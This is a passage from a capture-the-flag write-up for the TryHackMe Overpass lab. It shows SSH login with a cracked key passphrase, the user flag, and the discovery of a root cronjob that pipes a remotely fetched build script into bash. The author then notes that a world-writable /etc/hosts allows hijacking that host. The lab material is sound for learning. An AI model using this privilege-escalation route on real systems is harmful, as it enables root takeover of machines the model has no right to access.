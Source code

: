Bingo, the passphrase for the rsa private key is `james13`. We can now SSH as James to the machine using the id_rsa key and passphrase.

## User Flag
```
james@overpass-prod:~$ ls
todo.txt  user.txt
james@overpass-prod:~$ cat user.txt
thm{65c1aaf000506e56996822c6281e6bf7}
```
We find the user flag relatively quickly.

## Privilege Escalation
If we take a look at `todo.txt`, we see some interesting notes for James.
```
james@overpass-prod:~$ cat todo.txt
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```
The final item on the list catches my attention. An "automated" build script immediately makes me think of a cronjob. I can check `/etc/crontab` to confirm my suspicion.

```
james@overpass-prod:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user command
17 * * * * root    cd / && run-parts --report /etc/cron.hourly
25 6 * * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6 * * 7 root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6 1 * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

As you see, there is a cronjob assigned to curl buildscript.sh from the overpass.thm server and execute it as root every minute. This is an especially vulnerable cronjob, because I can change the assigned IP for overpass.thm through `/etc/hosts`. 

I check if I have write permissions and I do.
```
james@overpass-prod:/etc$ ls -la | grep hosts
-rw-rw-rw-  1 root root        250 Jun 27  2020 hosts
```
